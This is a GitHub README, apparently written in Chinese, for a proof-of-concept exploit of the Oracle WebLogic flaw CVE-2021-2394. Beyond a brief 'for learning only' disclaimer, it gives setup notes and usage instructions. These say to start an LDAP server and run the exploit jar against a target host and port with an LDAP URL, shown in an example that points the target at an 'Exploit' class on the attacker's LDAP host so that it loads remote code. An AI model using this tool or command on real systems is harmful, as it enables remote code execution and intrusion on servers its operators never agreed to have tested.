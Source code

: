 # CVE-2021-2394

POC of CVE-2021-2394

- 免责声明
  - 项目仅供学习使用，任何未授权检测造成的直接或者间接的后果及损失，均由使用者本人负责

* 注意事项
  * POC使用IIOP发包，请添加相关依赖（已将12.2.1.3.0版本的依赖放release）
  * 请使用低版本的jdk安装weblogic进行测试

* 使用方法：
  * 启动一个ldap服务
  * `java -jar CVE_2021_2394.jar rhost rport ldapurl`
  * eg:`java -jar CVE_2021_2394.jar 192.168.137.1 7001 ldap://192.168.137.1:8087/Exploit`
* 参考链接：
  * https://mp.weixin.qq.com/s/onoMpyenDkMmsoGEw8VO2A
  * https://github.com/Y4er/CVE-2020-14756
